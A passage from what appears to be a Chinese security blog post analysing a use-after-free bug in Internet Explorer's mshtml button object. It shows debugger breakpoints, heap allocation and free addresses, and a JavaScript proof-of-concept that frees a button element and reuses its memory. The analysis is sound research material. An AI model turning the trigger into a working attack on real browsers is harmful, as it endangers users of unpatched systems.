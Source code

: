 <span class="hljs-number">6</span>a28ed62 mshtml!CButton::SetAAtype = &lt;no <span class="hljs-class"><span class="hljs-keyword">type</span> <span class="hljs-title">information</span>&gt;</span>
<span class="hljs-number">6</span>a28f9a6 mshtml!CButton::EnsureDefaultAttributes = &lt;no <span class="hljs-class"><span class="hljs-keyword">type</span> <span class="hljs-title">information</span>&gt;</span>
<span class="hljs-number">69</span>fe3571 mshtml!CButton::GetDBindMethods = &lt;no <span class="hljs-class"><span class="hljs-keyword">type</span> <span class="hljs-title">information</span>&gt;</span></code></pre>
<p>在上面我们可以找到两个比较有用的函数</p>
<pre class="prettyprint"><code class=" hljs delphi"><span class="hljs-number">6</span>a28ee41 mshtml!CButton::CreateElement = &lt;no <span class="hljs-keyword">type</span> information&gt;<span class="hljs-comment">//很明显是一个按钮创建的过程</span>
<span class="hljs-number">6</span>a28ed27 mshtml!CButton::`scalar deleting <span class="hljs-function"><span class="hljs-keyword">destructor</span>' = &lt;<span class="hljs-title">no</span> <span class="hljs-title">type</span> <span class="hljs-title">information</span>&gt;//猜测是按钮销毁的过程</span></code></pre>
<p>我们对这两个地方下断点，直接利用地址进行断点设置</p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170628234314578?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<p>跟踪调试一下</p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170628234709488?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<p>我们发现了HeapAlloc函数 ，该函数位button按钮分配内存，查看一下分配的地址为0x70b2fa8 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170628235304136?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170629000848146?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
至此button的分配已经完成</br></img></p>
<h2 id="0x2-堆的释放">0x2 堆的释放</h2>
<p>刚刚我们把断点设在了mshtml!CButton::`scalar deleting destructor’  函数这 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170628235600855?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
在函数的中间我们发现了释放堆的代码，前三个压栈的是函数的参数，最后一个压栈的是要释放内存的地址0x70b2fa8 发现与申请的时候内存地址相吻合 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170628235714561?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></br></img></br></p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170629001001530?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
堆的释放就结束了。</br></img></p>
<h2 id="0x3-堆的重用">0x3 堆的重用</h2>
<p>就在刚一开始的时候，程序崩溃的地方，访问di内存地址无效，造成的程序崩溃，成为能够控制代码执行的地方 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170629001047663?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></p>
<h2 id="0x4-与js代码结合分析">0x4 与JS代码结合分析</h2>
<p>前面一部分我们只知道了，在程序执行时汇编代码所做的的操作，如果对应到JS代码上，应该怎么理解。 <br>
这里有几个猜想</br></p>
<ol>
<li>e1.appendChild(document.createElement(‘button’)); 执行了HeapAlloc函数</li>
<li>e2.outerText = “”; 把button对象释放了</li>
<li>e2.appendChild(document.createElement(‘body’)); 是的内存重用</li>
</ol>
<p>以上是对JS代码在堆上的操作进行的猜想。 <br>
下面修改一下验证代码，将上述payload改成如下所示</br></p>
<pre class="prettyprint"><code class=" hljs coffeescript">    e0 = <span class="hljs-built_in">document</span>.getElementById(<span class="hljs-string">"a"</span>);
    e1 = <span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">"div"</span>);
    e2 = <span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">"q"</span>);
    e1.applyElement(e2);
    e1.appendChild(<span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">'button'</span>));
    alert(<span class="hljs-string">"init create"</span>);
    e1.applyElement(e0);
    e2.innerHTML = <span class="hljs-string">""</span>;
    alert(<span class="hljs-string">"delete？"</span>);
    e2.appendChild(<span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">'body'</span>));